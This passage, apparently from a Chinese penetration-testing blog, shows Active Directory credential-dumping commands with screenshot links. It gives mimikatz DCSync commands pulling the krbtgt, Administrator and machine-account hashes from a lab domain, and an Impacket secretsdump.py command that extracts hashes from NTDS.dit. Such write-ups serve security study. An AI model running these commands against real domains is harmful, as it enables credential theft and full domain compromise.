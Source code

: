 ```text
lsadump::dcsync /domain:pingpig.com /user:krbtgt
```

![](https://img-blog.csdnimg.cn/20201004014746932.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

```text
lsadump::dcsync /domain:pingpig.com /user:Administrator
```

![](https://img-blog.csdnimg.cn/20201004014835985.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

```text
lsadump::dcsync /domain:pingpig.com /user:win7test1-pc$
```

![](https://img-blog.csdnimg.cn/20201004014950472.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

### **Impacket的secretsdump.py-读取NTDS.dit内Hash**

```text
python secretsdump.py -system /tmp/system.hive -ntds /tmp/ntds.dit LOCAL
```

![](https://img-blog.csdnimg.cn/20201004015704289.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

